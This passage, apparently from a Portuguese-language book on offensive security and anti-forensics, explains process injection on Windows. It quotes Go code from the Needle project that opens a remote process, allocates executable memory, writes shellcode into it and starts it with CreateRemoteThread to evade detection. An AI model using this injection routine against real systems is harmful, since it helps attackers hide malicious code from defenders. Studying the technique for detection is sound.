 
Neste capítulo, examinaremos diversas técnicas para evitar artefatos forenses comuns e, assim, evitar grande parte da análise forense tradicional pós-comprometimento... com foco nas técnicas de injeção de processo e as técnicas em memória que evitam detecção.

### Gaining the advantage

#### Process injection

Injeção de processo é uma técnica que envolve alocar shellcode na memória e executá-lo sem usar o carregador executável normal do sistema. Os invasores frequentemente fazem isso para mover seu código em execução ativamente para um local da memória que não seja facilmente associado à execução original do código. 

Embora a técnica geral exista em todos os principais sistemas operacionais em diferentes formas, a injeção de processo é mais comum no Windows devido aos múltiplos métodos e chamadas de API que a suportam.
Existem muitos tipos diferentes de injeção de processo nos vários sistemas operacionais e a categoria geral inclui muitas subtécnicas, como diferentes métodos, estruturas ou argumentos usados para carregar e executar shellcode. 

Existem muitas técnicas diferentes para alocar e executar shellcode em um processo-alvo, apenas no Windows. O MITRE, por exemplo, lista mais de 11 subtécnicas diferentes em injeção de processo, abrangendo desde injeção de DLL, process doppelganging, process hollowing e thread execution hijacking.

Frequentemente, as técnicas envolvem escrever o shellcode em um local específico da memória e, em seguida, iniciar sua execução de alguma forma.

Podemos ver a técnica CreateRemoteThread ilustrada de forma muito clara em Go, no programa Needle de Vyrus001 em https://github.com/vyrus001/needle/blob/6b9325068755b55adda60cf15aea817cf508639d/windows.go#L24

```go
// Open remote process with kernel32.OpenProcess
openProc, _ := kernel.FindProc("OpenProcess")
remoteProc, _, _ := openProc.Call(0x0002|0x0400|0x0008|0x0020|0x0010,
uintptr(0), uintptr(int(pid)),)

// Allocate memory in remote process with kernel32.VirtualAllocEx
allocExMem, _ := kernel.FindProc("VirtualAllocEx")
remoteMem, _, _ := allocExMem.Call(remoteProc, uintptr(0),
uintptr(len(payload)), 0x2000|0x1000, 0x40,)

// Write shellcode to remote process using kernel32.WriteProcessMemory
writeProc, _ := kernel.FindProc("WriteProcessMemory")
writeProcRetVal, _, _ := writeProc.Call(remoteProc, remoteMem,
uintptr(unsafe.Pointer(&payload[0])), uintptr(len(payload)),
uintptr(0),)

// Start a thread on the payload with kernel32.CreateRemoteThread
createThread, _ := kernel.FindProc("CreateRemoteThread")
status, _, _ := createThread.Call(remoteProc, uintptr(0), 0, remoteMem,
uintptr(0), 0, uintptr(0),)
```
